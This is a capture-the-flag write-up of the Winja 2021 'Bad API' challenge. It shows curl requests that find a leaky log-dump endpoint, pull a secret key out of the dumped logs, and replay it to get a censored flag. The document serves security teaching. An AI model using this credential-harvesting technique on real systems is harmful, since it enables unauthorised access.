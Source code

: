 # Winja 2021 — Bad API — writeup

The challenge is a web page, with a username field.

http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz

After trying with “admin”, we receive the message:

> “Secret key provided is invalid. Please try again.”

Checking the Network tab on Chrome DevTools, it’s:

> POST https://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

username: admin
secret_key:
Mechanic: Somebody set up us the bomb. Operator: Main screen turn on.

So lets find this secret key, checking the console we can see that there is a recurring call to the endpoint

> curl -X GET http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/api/v1/dump_status

The response to this request is:

“Log dump not ready”

after a few seconds it returned the message:

“Dump ready at endpoint (v1)”

So now we will try to find this dump, analyzing the status url we will try to do a get at the endpoint

> curl -X GET http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/api/v1/dump

Analysing the response we can see some interesting information leaked:

…
views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘SECRET’), (‘secret_key’, ‘S’)])
[views.py:56 — process_form()] Expected key ALLYOURBASEAREBELONGTOUS not recieved. Redirecting to 404…
[views.py:43 — process_form()] Request recieved:
[views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘’), (‘secret_key’, ‘SECRET’)])
[views.py:43 — process_form()] Request recieved:
[views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘admin’), (‘secret_key’, ‘\r\nMechanic: Somebody set up us the bomb. Operator: Main screen turn on.\r\n ‘)])
[views.py:56 — process_form()] Expected key (censored) not recieved. Redirecting to 404…
…

As we can see there are some logs related to secret_key and some secret tips that we can try to use, like ALLYOURBASEAREBELONGTOUS

> curl -X POST -F “username=admin” -F “secret_key=ALLYOURBASEAREBELONGTOUS” http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

We got a redirect, so it’s a wrong secret_key, but we have another secret_key on the first log, (censored)

> curl -X POST -F “username=admin” -F “secret_key=(censored)” http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

Now we got an HTML response, with the flag!!

...
##### flag\{(censored)\}
...

Keep Hacking!

#KapiSec
